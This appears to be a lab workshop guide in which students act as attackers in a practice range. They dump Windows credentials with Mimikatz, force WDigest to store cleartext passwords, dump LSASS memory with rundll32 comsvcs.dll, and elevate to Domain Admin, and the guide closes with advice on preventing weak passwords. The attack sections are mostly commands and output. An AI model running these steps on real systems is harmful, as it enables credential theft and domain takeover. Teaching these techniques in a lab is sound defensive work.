


# Credential Grabbing

In this workshop, you will be acting as the threat actor (TA). To begin, you will be connecting to the "Windows Attack Server" system within the range. This system serves as the external system from which the TA begins their attack.
- Yes, this system is technically on the same network as the rest of the servers. You're pretending as though it's external to the network. So plet's play pretend and move along ;).

## Initial Connections

1. Connect to the "Windows Attack Server" host.
    1. Under the "Connections" list, click the "Windows Attack Desktop" link
    
    
    
    - Once the session loads in your browser, you will be at the desktop of the Windows Attack Desktop machine. Now that you are here, you will initiate the RDP session to the victim network.
    
1. Launch Remote Desktop Connection to begin the attack:
   1. Use `mstsc` or simply choose "Start" -> "Remote Desktop Connection"
1. Click "Show Options" at the bottom-left of the window so that you can fill out the destination machine & user details
    1. Computer: `172.31.24.111`
        - This is the IP address of the `TWORIVERS` host. Though this is an internal IP, you are pretending as though this is how the TA is connecting into the victim environment from the outside.
    1. User name: `172.31.24.111\Administrator`
        - Make sure to enter the IP + slash designation before the username.
        
    
    
1. Click "Connect" at the bottom-right to initiate the RDP session
1. When prompted, enter the Administrator user's password:
    - `Summerishere@2023!`

*CONGRATS!* You are now connected into the victim environment.

Again, we are pretending as though the TA, _you_ in this case, was able to connect to RDP because they obtained the Administrator account's password. This could have been obtained via brute forcing, password spraying, credential stuffing, purchasing from an initial access broker (see [for528.com/iab](https://for528.com/iab) to learn more).

Our focus is not on obtaining initial access, but rather attacks on AD once access has been obtained -- So let's keep going!!

## Accessing Credentials

Once obtaining access a new environment, TAs will often run initial discovery/enumeration commands to identify their current account context, basic domain information, etc.
- For example, the former Conti ransomware team was found to provide an attack playbook to their affiliate groups called "Cobalt strike MANAULS_v2 Active Directory" that focused on AD-based attacks. The very first step in this manual involved general discovery commands:

    

In this case, the TA has accessed the environment using a local Administrator account. This account does not have LDAP query permissions. Thus, the TA needs to obtain access to a domain account.

Let's access some credentials!

1. Open PowerShell as Administrator
    1. Start menu -> Type `powershell` -> Right-click on "Windows PowerShell" and select "Run as administrator"
        1. Do _not_ use "PowerShell 7 (x64)" or double-click "PowerShell 7" on the desktop, as we do not want PS7/Core
    1. Click "Yes" on the UAC prompt

1. Extract Mimikatz:
    1. `cd c:\Users\Public\Desktop\LAB_FILES\assets`
    1. `expand-archive mimikatz_trunk.zip`

1. Run mimikatz meow.
   1. `cd .\mimikatz_trunk\x64\`
   1. `.\mimikatz.exe`
   
   1. In Mimikatz terminal @ `mimikatz #`:
   
        ```
        privilege::debug
        log m.txt
        sekurlsa::logonpasswords
        sekurlsa::wdigest
        ```

1. Launch a separate PowerShell window as admin and run:

    ```powershell    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    runas /user:wheel\Administrator notepad.exe
    password: 12qwaszx!@QWASZX
    ```

    - Minimize the `notepad` process window. **DO NOT close this window**
    - We're using RunAs to emulate a process being run via the `wheel\administrator` account.
    
1. Back in mimikatz:
   1. `sekurlsa::logonpasswords`
   1. `sekurlsa::wdigest`

>Yay clear text pw!

8. Elevate

`mimkatz # token::elevate /domainadmin`

    - Expected output:
        ```
        mimikatz # token::elevate /domainadmin
        Token Id  : 0
        User name :
        SID name  : WHEEL\Domain Admins

        3804    {0;00e652ef} 3 D 15095083       WHEEL\Administrator     S-1-5-21-2920872554-2728211966-3144411165-500   (16g,24p)       Primary
         -> Impersonated !
         * Process Token : {0;006de2b6} 3 D 15016662    CLIENT01\Administrator  S-1-5-21-1871320352-3388450030-3539921296-500   (14g,24p)       Primary
         * Thread Token  : {0;00e652ef} 3 D 15181987    WHEEL\Administrator     S-1-5-21-2920872554-2728211966-3144411165-500   (16g,24p)       Impersonation (Delegation)\
        ```

**CONGRATS!! You are not elevated to a domain admin account!


## Other way lolbins
1. in an local admin powershell:
```
get-process lsass

rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump <pid> C:\Windows\temp\mini.dump full
```

2. In mimikatz (this can be done "offline")
```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full

```

----

## BONUS: Weak Passwords

That Administrator account password (`Summerishere@2023!`) is weak, right? You might be surprised how often this type of password is found in large-scale environments. Back in 2015/16, the Iranian-based APT33 group capitalized on the prevalence of passwords that include the season or month + year in attacks against the US energy sector. These attacks proved highly successful, yet nearly a decade later, we still see these passwords in use in organizations around the world.

For a daily-updated list of insecure passwords that follow this schema, i.e. passwords that you and your users _should avoid at all costs_, see:
[weakpasswords.net](http://weakpasswords.net/).

### Prevention

If you use Azure AD, you can use [Azure AD Password Protection](https://for528.com/azure-pass) to deny your users the ability to include strings such as months, seaons, and years in their passwords.

If you are fully on-prem, you can begin by working with the [passfilt.dll options](https://for528.com/passfilt). This is a beginning step. If you want tighter control over passwords, _which you do_, you can look into commercial replacement for `passfilt.dll` or better yet review the open source [PassFiltEx project](https://for528.com/passfiltex).
